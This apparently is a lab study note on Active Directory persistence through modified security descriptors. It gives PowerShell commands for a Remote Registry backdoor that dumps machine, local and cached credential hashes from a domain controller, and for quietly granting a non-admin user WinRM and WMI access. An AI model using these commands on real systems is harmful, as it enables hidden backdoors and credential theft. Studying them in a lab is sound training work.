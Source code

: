 It's possible to modify Security Descriptors (security information like
Owner, primary group, DACL and SACL) of multiple remote access
methods (securable objects) to allow access to non-admin users.

Administrative privileges are required for this, however it is a very impactful backdoor mechanism

> [!NOTE] **NOTE**
> Security Descriptor Definition Language Format:
> `ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
> 
> ACE for built-in administrators for WMI namespaces:
> `A;CI;CCDCLCSWRPWPRCWD;;;SID`
> 
> We're interested in simply changing the SID to a user we control

### RACE
ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit:

```powershell
. .\Race.ps1
```

##### Remote Registry (machine hash backdoor)
Using RACE or DAMP, with admin privs on remote machine
```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee student548 -Verbose
```

As student548, retrieve machine account hash
```powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```

Retrieve local account hash
```powershell
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```

Retrieve domain cached credentials
```powershell
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

##### WinRM
On a local machine
```powershell
Set-RemotePSRemoting -SamAccountName student548 -Verbose
```

On a remote machine for user `student548` **without** explicit credentials
```powershell
Set-RemotePSRemoting -SamAccountName student548 -ComputerName dcorp-dc -Verbose
```

Test
```powershell
Enter-PSSession -computername dcorp-dc
```

Removing permissions
```powershell
Set-RemotePSRemoting -SamAccountName student548 -ComputerName dcorp-dc -Remove
```


> [!NOTE] **NOTE**
> Permissions within the WinRM will be the same as a regular user but that doesn't mean we cant Priv Esc on the machine

##### WMI
On a local machine
```powershell
Set-RemoteWMI -SamAccountName student548 -Verbose
```

On a remote machine for user `student548` **without** explicit credentials
```powershell
Set-RemoteWMI -SamAccountName student548 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

Removing permissions
```powershell
Set-RemoteWMI -SamAccountName student548 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```

Test with `gwmi`
```powershell
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```